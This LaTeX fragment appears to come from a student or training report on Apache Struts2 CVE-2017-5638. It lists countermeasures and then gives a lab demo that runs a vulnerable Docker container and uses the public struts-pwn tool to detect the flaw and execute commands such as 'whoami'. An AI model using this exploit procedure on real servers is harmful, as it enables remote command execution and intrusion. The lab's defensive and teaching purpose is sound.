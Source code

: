 \documentclass[a4paper, 11pt]{article}
\begin{document}
\section{Countermeasures}

Web application firewalls could mitigate this attack if the rules are set to approve valid content
types or ban OGNL expressions.

However, a simpler approach such as upgrading to Apache Struts version 2.3.32 or 2.5.10.1., which are
not vulnerable to this attack, is enough.

Finally, one could switch to a different implementation of the Multipart parser such as the Jason Pell’s
Multipart parser.

\section{Demo}

We're now going to perform a live demonstration of this vulnerability.

First, we have to pull a docker image with a vulnerable version of the Apache Struts2.

\begin{verbatim}
$ sudo docker run -p8080:8080 -ti piesecurity/apache-struts2-cve-2017-5638
\end{verbatim}

After starting the container, the web app is now visible on port \texttt{8080}.

\begin{verbatim}
$ firefox "http://localhost:8080/fileupload.action" &
\end{verbatim}

Then, we download a Python script that has the utility functions we mentioned previously so we can
check and exploit this vulnerability.

\begin{verbatim}
$ git clone https://github.com/mazen160/struts-pwn.git && cd struts-pwn
$ ./struts-pwn.py --check --url 'http://localhost:8080/fileupload.action'
\end{verbatim}

As we can see, this endpoint is vulnerable.

\pagebreak

We can now execute some commands to the server with the flag \texttt{-c}.

\begin{verbatim}
$ ./struts-pwn.py --url 'http://localhost:8080/fileupload.action' -c 'whoami'
\end{verbatim}

As we can see, we just printed the user responsible for running the web server. Similarly, we can run
any command we want. On the other hand, checking this logs, we can see that the web server is throwing
exceptions with invalid formats.
\end{document}
